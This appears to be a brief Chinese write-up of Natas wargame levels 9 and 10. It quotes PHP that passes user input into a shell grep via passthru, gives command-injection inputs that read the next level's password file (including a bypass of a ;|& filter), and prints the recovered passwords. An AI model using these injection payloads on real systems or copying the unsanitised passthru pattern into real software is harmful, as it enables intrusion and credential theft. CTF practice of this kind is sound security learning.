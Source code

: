 ```
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
?>
```
直接命令注入
```
输入;cat /etc/natas_webpass/natas10
```
得到密钥
```
D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE
```
# level10
他们学聪明了
```
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```
就是写正则，水的
```
[a-zA-Z] /etc/natas_webpass/natas11 #
[[:alpha:]] /etc/natas_webpass/natas11 #
```

```
1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg
```
# level11

```

```
# level12
